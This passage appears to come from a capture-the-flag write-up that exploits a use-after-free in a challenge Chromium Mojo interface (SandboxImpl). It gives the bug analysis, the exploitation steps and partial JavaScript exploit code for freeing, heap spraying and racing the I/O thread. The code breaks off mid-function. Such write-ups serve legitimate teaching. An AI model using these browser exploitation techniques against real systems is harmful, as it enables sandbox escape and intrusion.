 So it appears that the contents of `sand` are copied and the copy is passed to `Pour` because `sand` is a const reference. But what about `this`? According to the documentation the default behavior would be to increment its refcount, but here the code is using `base::Unretained` which changes this. Let's check chromium's documentation for that:

```cpp
// Unretained() allows binding a non-refcounted class, and to disable
// refcounting on arguments that are refcounted objects.
```

> If a callback bound to a class method does not need cancel-on-destroy semantics (because there is some external guarantee that the class instance will always be live when running the callback), then use base::Unretained(). It is often a good idea to add a brief comment to explain why base::Unretained() is safe in this context; if nothing else, for future code archaeologists trying to fix a use-after-free bug.

`base::Unretained` disables refcounting and represents a promise from the caller that the object will remain alive until the callback finally runs. As the documentation notes, it can cause a use-after-free if not used carefully, and it looks like the challenge code might be vulnerable to this. This gives us a potential use-after-free on a `SandboxImpl`.

## Exploitation

In order to exploit the vulnerability the following things would have to happen, in order:

1. Our exploit calls `PourSand` on a `SandboxImpl` (let's call this `a`). This enqueues the call to `a->Pour` on the I/O thread.

1. `a` gets freed.

1. Our exploit reclaims `a`'s memory with a different object whose contents we control.

1. `Pour` runs with `this` pointing to controlled memory.

Freeing `a` is easy, we can do it from JavaScript by calling `.reset()` on the handle.

```js
let sandbox = new blink.mojom.SandboxPtr();
// Free the SandboxImpl
sandbox.ptr.reset();
```

Spraying should also be pretty easy because `Pour` conveniently creates a `std::vector<uint8_t>` with controlled data and size when `sand` is bigger than 0x800 bytes. All we need is a way to delay the execution of a freed `SandboxImpl`'s `Pour` callback. One idea is to post a lot of tasks to the I/O thread by calling `PourSand` over and over, and then free our target while the I/O thread is busy processing the callbacks:

```js
function newClient() {
  let iface = new blink.mojom.SandboxPtr();
  Mojo.bindInterface(blink.mojom.Sandbox.name, mojo.makeRequest(iface).handle);

  return iface;
}

async function pwn() {
  let clients = [];
  for (let i = 0; i < 1000; i++) {
    clients.push(newClient());
  }

  let spray = [];
  for (let i = 0; i < 100; i++) {
    spray.push(newClient());
  }

  let iface = newClient();

```